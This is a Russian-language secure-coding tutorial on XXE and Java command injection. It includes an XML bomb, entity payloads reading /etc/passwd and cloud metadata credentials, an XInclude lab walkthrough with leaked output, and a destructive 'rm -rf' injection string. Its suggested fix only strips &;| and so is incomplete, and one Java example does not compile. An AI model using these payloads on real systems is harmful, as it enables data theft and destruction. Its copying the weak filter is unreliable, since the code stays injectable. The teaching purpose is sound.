


## Безопасная разработка в Java/Node.js

### I. Атака XML external entity.

**XInclude** - это стандарт для сборки документов XML в другой XML-документ путем включения. Основной файл может быть динамически создан из XML-документов меньшего размера без необходимости физического дублирования содержимого включаемых файлов. Преимущество использования XInclude вместо метода DTD Entities заключается в том, что каждому из собранных документов разрешено содержать объявление типа документа (DOCTYPE). Это означает, что каждый файл является допустимым экземпляром XML и может быть независимо проверен. Это также означает, что основной документ, который включает экземпляры других XML-файлов, может быть проверен без необходимости удалять или комментировать DOCTYPE.

Рассмотрим пример работы XInclude.

Пусть у нас есть исходный документ:

```xml
<?xml version='1.0' encoding="UTF-8"?>
    <document xmlns:xi="http://www.w3.org/2001/XInclude">
    <p>Текст моего документа</p>
    <xi:include href="copyright.xml"/>
</document>
```

и файл copyright.xml:

```xml
<?xml version='1.0' encoding="UTF-8"?>
<copyright>Все права защищены © 2001-2010</copyright>
```

Тогда итоговый документ после обработки будет иметь вид:

```xml
<?xml version='1.0' encoding="UTF-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
    <p>Текст моего документа</p>
    <copyright>Все права защищены © 2001-2010</copyright>
</document>
```

**XXE** (XML external entity, или инъекция внешних сущностей XML) - уязвимость, позволяющая злоумышленнику вмешиваться в обработку XML-документов в приложении. Основной причиной такой атаки является уязвимый и (или) небезопасным образом сконфигурированный XML-анализатор.

Атаки такого типа могут привести к:

* вызовам отказа в обслуживании

* доступу к файлам

* выполнению подделки запросов на стороне сервера (SSRF)

* ряду других проблем, типа сканирования портов машины, на которой запущен XML-анализатор или инъекции команд

  

**Отказ в обслуживании.**

[CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)

Отказ в обслуживании может быть вызван путем загрузки документа с объектом, который будет расширяться экспоненциально (так называемая XML-бомба). 

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

Средства защиты от такого рода атак включают ограничение памяти, выделенной анализатору, если допустима потеря документа, или символическую обработку объектов и их расширение только тогда, когда будет использоваться их содержимое, а не сразу всего документа.


**Доступ к файлам.**

Если анализатор XML настроен на обработку внешних объектов (по умолчанию многие популярные анализаторы XML настроены на это), веб-сервер вернет содержимое файла в системе, потенциально содержащего конфиденциальные данные:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///etc/passwd">
]>
<foo>
  &xxe;
</foo>
```

Конечно, ограничиваться системными файлами никто не будет. Могут быть легко украдены другие локальные файлы, включая исходный код (если известны расположение и структура веб-приложения). 

**Выполнение подделки запросов на стороне сервера (SSRF)**

С помощью некоторых анализаторов XML даже возможно получать списки каталогов в дополнение к содержимому других ресурсов. Атаки могут даже позволить злоумышленнику выполнять регулярные HTTP-запросы к внешним ресурсам:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<foo>
  &xxe;
</foo>
```

Не всегда есть возможность контроля над полными документами XML, которыми оперирует сервер. Зачастую отправляемые данные используются как часть документов, которые находятся на сервере. Однако и в этом случае есть возможность выполнения атаки, используя механизм XInclude.

Прицип возникновения уязвимости XXE при использовании XInclude рассмотрим на примере лабораторной работы https://portswigger.net/web-security/xxe/lab-xinclude-attack

В соответствии с заданием известно, что функция "Наличие на складе" встраивает пользовательский ввод в XML-документ на стороне сервера. Проверим, какой запрос выполняется при запросе остатков:







Мы видим, что отправляется не готовый XML-документ, а форма с двумя параметрами, которые будут встроены в итоговый документ уже на стороне сервера. Значит мы не можем контролировать XML-документ полностью, но можем попытаться встроить свой код, используя XInclude:

```xml
<hack>
	<include xmlns="http://www.w3.org/2001/XInclude" parse="text" href="file:///etc/passwd"/>
</hack>
```

Таким образом, вместо идентификатора продукта в итоговый документ будет подставлен наш код. И так как итоговый файл является корректным XML-документом, то у приложения из-за того, что использование XInclude разрешено, не будет основания отказать в обработке такого документа.

Подставив код, указанный выше, как значение параметра productId получим ответ, содержащий нужный нам файл:

```
"Invalid product ID: 
root:x: 0: 0:root:/root:/bin/bash
daemon:x: 1: 1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x: 2: 2:bin:/bin:/usr/sbin/nologin
sys:x: 3: 3:sys:/dev:/usr/sbin/nologin
sync:x: 4: 65534:sync:/bin:/bin/sync
games:x: 5: 60:games:/usr/games:/usr/sbin/nologin
man:x: 6: 12:man:/var/cache/man:/usr/sbin/nologin
lp:x: 7: 7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x: 8: 8:mail:/var/mail:/usr/sbin/nologin
news:x: 9: 9:news:/var/spool/news:/usr/sbin/nologin
uucp:x: 10: 10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x: 13: 13:proxy:/bin:/usr/sbin/nologin
www-data:x: 33: 33:www-data:/var/www:/usr/sbin/nologin
backup:x: 34: 34:backup:/var/backups:/usr/sbin/nologin
list:x: 38: 38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x: 39: 39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x: 41: 41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x: 65534: 65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x: 100: 65534: :/nonexistent:/usr/sbin/nologin
peter:x: 12001: 12001: :/home/peter:/bin/bash
carlos:x: 12002: 12002: :/home/carlos:/bin/bash
user:x: 12000: 12000: :/home/user:/bin/bash
elmer:x: 12099: 12099: :/home/elmer:/bin/bash
academy:x: 10000: 10000: :/academy:/bin/bash
messagebus:x: 101: 101: :/nonexistent:/usr/sbin/nologin
dnsmasq:x: 102: 65534:dnsmasq,
...
```

Если бы приложение не выводило на страницу значение ptoductId, которое получется после обработки итогового документа, мы бы этот файл не увидели.

Основные способы защиты от XXE-атак:

- использовать по возможности более простые форматы данных, например JSON, избегать сериализации критически важных данных;
- установить исправления или обновления для всех библиотек и обработчиков XML, используемых приложением или ОС, использовать проверки зависимостей;
- отключить обработку внешних сущностей XML и DTD во всех XML-обработчиках приложения, согласно ["Памятке OWASP по предотвращению XXE"](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet);
- реализовать на сервере (по белым спискам) проверку, фильтрацию или очистку (экранирование) входных данных для предотвращения попадания вредоносных данных в XML-документы;
- удостовериться, что функция загрузки XML или XSL проверяет входящие файлы с использованием XSD или другой подобной методики;
- анализировать код масштабных и сложных приложений со множеством встраиваемых компонентов вручную, хотя инструменты SAST могут помочь обнаружить XXE в исходном коде.


### II. Разбор Java-проекта.

Приведенный ниже код при корректном использовании должен выполнить пинг сервера, адрес которого указан в параметре **cmd**, полученном со стороны пользователя, и вернуть в виде результата содержимое консоли. Однако он содержит серъезную проблему, которая может привести к весьма неприятным последствиям - **command injection**.

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.IOException;
import javax.servlet.RequestDispatcher;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.util.List;

public class Admin extends HttpServlet {
    protected void post(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        Runtime rt = Runtime.getRuntime();
        StringBuilder command = new StringBuilder();
        StringBuilder output = new StringBuilder();
        Process proc = rt.exec(new String[] {"sh", "-c", "ping -c 1 " + req.getParameter("cmd")});
        BufferedReader stdInput = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        BufferedReader stdError = new BufferedReader(new InputStreamReader(proc.getErrorStream()));
        String s;
        while ((s = stdInput.readLine()) != null) {
            output.append(s);
        }
        while ((s = stdError.readLine()) != null) {
            output.append(s);
        }
        req.setAttribute("output", output.toString());
        req.setAttribute("command", command.toString());
        req.setAttribute("cmd", req.getParameter("cmd"));
        this.doGet(req, resp);
    }
}
```

Например, мы можем указать параметр cmd равный:

```bash
# Пробел перед && - обязателен 
 && rm -rf -- "$(pwd -P)" && cd ..
```

что приведет к удалению текущей директории, которая скорее всего является директорией самого приложения, а значит прав на это хватит.

Для достижения необходимого результата нет необходимости использовать столь опасный метод. Наилучшим вариантом будет использование специализированного класса InetAddress, который предназначен для решения такого рода задач:

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.IOException;
import javax.servlet.RequestDispatcher;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.util.List;

public class Admin extends HttpServlet {
    protected void post(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
		String address = req.getParameter("address")
        try {
            InetAddress address = InetAddress.getByName(address);
            boolean reachable = address.isReachable(10000);
            req.setAttribute("result", reachable);
        } catch (Exception e) {
            req.setAttribute("output", output.toString());
        }
        req.setAttribute("address", address);
        this.doGet(req, resp);
    }
}
```

Однако, если действительно есть необходимость в получении именно вывода консоли при выполнении пинга, то достаточно убрать из пользовательского ввода символы, которые позволяют сцепить несколько команд в одну (**&|;**), чтобы избежать инъекции команды, так как корректный адрес такие символы содержать не может:

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.IOException;
import javax.servlet.RequestDispatcher;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.util.List;

public class Admin extends HttpServlet {
    protected void post(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        Runtime rt = Runtime.getRuntime();
        StringBuilder command = new StringBuilder();
        StringBuilder output = new StringBuilder();
        String cmd = req.getParameter("cmd");
        // Если параметр не был передан - делаем из него строку все равно, чтобы не упал метод replaceAll        
        if (cmd == null) {
            cmd = ""
        }
        cmd = cmd.replaceAll("[&;|]", "");
        Process proc = rt.exec(new String[] {"sh", "-c", "ping -c 1 " + cmd});
        BufferedReader stdInput = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        BufferedReader stdError = new BufferedReader(new InputStreamReader(proc.getErrorStream()));
        String s;
        while ((s = stdInput.readLine()) != null) {
            output.append(s);
        }
        while ((s = stdError.readLine()) != null) {
            output.append(s);
        }
        req.setAttribute("output", output.toString());
        req.setAttribute("command", command.toString());
        req.setAttribute("cmd", cmd);
        this.doGet(req, resp);
    }
}
```

